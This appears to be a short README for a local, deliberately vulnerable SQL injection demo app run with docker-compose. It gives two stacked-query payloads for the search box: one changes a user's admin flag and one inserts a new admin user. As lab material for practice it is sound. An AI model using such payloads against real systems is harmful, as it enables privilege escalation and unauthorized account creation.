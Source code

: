 # sql injection

not perfect\
will improve it later, mb:)

#

start
```bash
docker-compose up -d 
```

then visit http://localhost:2228


and try this out, at search input

```bash
# change admin value
kali'; UPDATE users SET admin=false WHERE username='savasick'; SELECT * FROM users WHERE username='savasick

# create new user
kali'; INSERT into users (username, admin) VALUES ('supervisor', 'True'); SELECT * FROM users WHERE username='savasick
```
